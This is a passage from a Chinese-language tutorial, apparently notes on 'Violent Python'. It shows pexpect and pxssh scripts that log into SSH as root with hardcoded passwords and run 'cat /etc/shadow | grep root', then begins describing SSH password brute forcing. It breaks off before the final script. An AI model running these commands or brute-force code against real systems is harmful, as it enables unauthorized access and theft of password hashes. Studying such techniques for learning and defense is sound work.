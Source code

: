 ```python
        child.sendline("yes")
        ret = child.expect([pexpect.TIMEOUT, "[P|p]assword:"])
        if ret == 0:
            print("[-] Error Connecting")
            exit(-1)
        child.sendline(password)
        child.expect(PROMPT)
        return child
    else:
        print(child)
    exit(-1)

if __name__ == "__main__":
    child = connect("root", "192.168.158.157", "toor")
    send_command(child, "cat /etc/shadow | grep root")
```

### 用 Pxssh 暴力破解 ssh 密码

Pxssh 导入方式：`import pexpect.pxssh`

Pxssh 是一个包含了 `pexpect` 库的专用脚本，它能用预先写好的 `login()`、`logout()` 和 `prompt()` 等函数直接与 `SSH` 进行交互。

【PS】以下仅实现了连接功能，但是依旧连接不上，问题同上。

```python
import pexpect.pxssh as pxssh
import traceback

def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)

def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        return s
    except Exception as e:
        traceback.print_exc()
        print("[-] Error Connecting")
        exit(-1)

if __name__ == "__main__":
    ssh = connect("localhost", "root", "Lin982674")
    send_command(ssh, "cat /etc/shadow | grep root")
```

接下来稍微修改下 `connect()` 函数即可实现爆破。如果异常显示 socket 为 `read_nonblocking`，可能是 SSH 服务器被大量的连接刷爆了；如果该异常显示 `pxssh` 命令提示符提取困难，可以等一会再试。这里实现的 `connect()` 可以递归地调用另一个 `connect()` 函数，所以必须让只有不是由 `connect()` 递归调用的 `connect()` 函数才能够释放 `connection_lock` 信号，书中给的最终脚本如下：
